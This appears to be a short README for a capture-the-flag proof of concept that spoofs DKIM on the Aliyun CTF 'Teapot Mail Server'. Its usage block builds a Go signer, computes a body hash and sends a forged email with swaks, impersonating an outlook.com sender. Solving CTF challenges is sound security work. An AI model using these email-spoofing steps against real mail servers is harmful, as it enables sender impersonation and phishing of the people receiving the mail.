 # Aliyun CTF Teapot Mail Server DKIM spoofing fast poc

## Usage

update file of `<your domain>` to your domain and make the DKIM for your domain

Save your private key as mail.pem

```bash
go build -o signer.exe signer.go
./signer.exe [mailname].eml
# find the bodyhash
./signer.exe [mailname].eml [bodyhash string]
swaks --data output2.eml \
  --to admin --from admin_required@outlook.com \
  --server TheTeapotServer --port 25
```

